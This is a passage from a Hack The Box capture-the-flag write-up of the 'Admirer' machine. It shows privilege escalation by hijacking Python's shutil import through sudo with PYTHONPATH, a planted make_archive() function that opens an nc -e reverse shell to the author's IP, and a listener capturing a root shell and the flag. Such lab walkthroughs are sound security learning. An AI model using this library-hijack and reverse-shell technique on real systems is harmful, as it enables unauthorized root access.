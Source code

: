 ```python
TypeError: make_archive() takes 0 positional arguments but 3 were given
whoami
waldo
waldo@admirer:/dev/shm$ nano shutil.py
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ I am groot
```

After trial and error, I was able to get my library to be loaded and executed, though I did not get a shell like I expected. However, I could see that the output of the `whoami` command did appear, so I had proof that I could run commands as root. 

I got an error when trying to exploit this with version one of my evil python library, but that error also confirmed that I was making progress. It told me that my `make_archive()` function takes 0 positional arguments but the script that was calling it was feeding it three.

```python
import os

def make_archive(a, b, c):
    os.system('/bin/bash')
    os.system('echo I am g`whoami`'')
    os.system('nc 10.10.15.57 12345 -e /bin/bash')
```

I modified my function to take 3 arguments \(which I didn't use for anything\), and also added a line to send me a reverse shell since calling a new shell wasn't working, and then it worked just fine. I didn't expect the version of `nc` that was installed to have `-e` capability, but I was happy it did!

```python
waldo@admirer:/dev/shm$ nano shutil.py 
waldo@admirer:/dev/shm$ sudo PYTHONPATH=/dev/shm /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ I am groot
```

### Root.txt

```text
zweilos@kali:~$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.187] 60956
whoami
root
cat /root/root.txt
0f4b44fb50b2c25de7e1464a2ea8b877
```

Thanks to [`polarbearer`](https://www.hackthebox.eu/home/users/profile/159204) and [`GibParadox`](https://www.hackthebox.eu/home/users/profile/125033) for creating this fun and interesting machine that taught me some new ways to take advantage of some common vulnerabilities and misconfigurations.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

